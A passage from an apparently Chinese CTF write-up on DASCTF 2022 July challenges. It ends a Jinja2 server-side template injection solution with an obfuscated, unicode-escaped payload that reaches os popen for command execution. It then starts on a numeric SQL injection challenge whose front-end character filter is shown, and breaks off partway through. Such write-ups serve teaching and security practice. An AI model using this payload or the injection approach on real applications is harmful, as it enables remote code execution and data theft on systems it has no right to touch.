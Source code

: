 最后调用去调用`popen`函数，由于`[]`被ban了，通过get方法去拿去字典中键名所对应的键值，然后执行命令即可，最后Payload如下

```php
{%for%0ac%0ain%0a{}|attr("\u005f\u005f\u0063\u006c\u0061\u0073\u0073\u005f\u005f")|attr("\u005f\u005f\u0062\u0061\u0073\u0065\u005f\u005f")|attr("\u005f\u005f\u0073\u0075\u0062\u0063\u006c\u0061\u0073\u0073\u0065\u0073\u005f\u005f")()%}{%if%0ac|attr("\u005f\u005f\u006e\u0061\u006d\u0065\u005f\u005f")in"\u005f\u0077\u0072\u0061\u0070\u005f\u0063\u006c\u006f\u0073\u0065"%}{%if%0a(c|attr("\u005f\u005f\u0069\u006e\u0069\u0074\u005f\u005f")|attr("\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f"))|attr("\u0067\u0065\u0074")("\u0070\u006f\u0070\u0065\u006e")("cmd")%}123{%endif%}{%endif%}{%endfor%}
```

![image-20220724164957276.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-298ecdae2a13bd8d14124e1a715e9fa26b2a31dd.png)

DASCTF2022 7月赛 - 绝对防御
=====================

开局一张图，后面全靠猜。查看了一下js文件，都是与`ws`有关的，一开始以为要手动去连接，然后再进行注入(以前有道题好像就这样考的，当时有个人手注)。

看了好久没有思路，使用谷歌小插件收集了一波信息，发现存在一个php页面，如下图

![image-20220724170357490.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-217ef3f26adf139bf13d27847adcb2ee9a36d43d.png)

访问获取网页源码如下

```html
<script>

function getQueryVariable(variable)
{
       var query = window.location.search.substring(1);
       var vars = query.split("&");
       for (var i=0;i<vars.length;i++) {
               var pair = vars[i].split("=");
               if(pair[0] == variable){return pair[1];}
       }
       return(false);
}

function check(){
        var reg = /[`~!@#$%^&*()_+<>?:"{},.\/;'[\]]/im;
        if (reg.test(getQueryVariable("id"))) {
            alert("提示：您输入的信息含有非法字符！");
            window.location.href = "/"
         }
}
check()

</script>
```

通过Get请求传参id，测试后确认为数字型，并且表是3列，这里直接盲猜是id、username、password

其中数据：1是admin、2是flag

想用`union select`联合查询直接获取的，但是没成，感觉是数据库类型的原因；测试了`if`函数也不行。
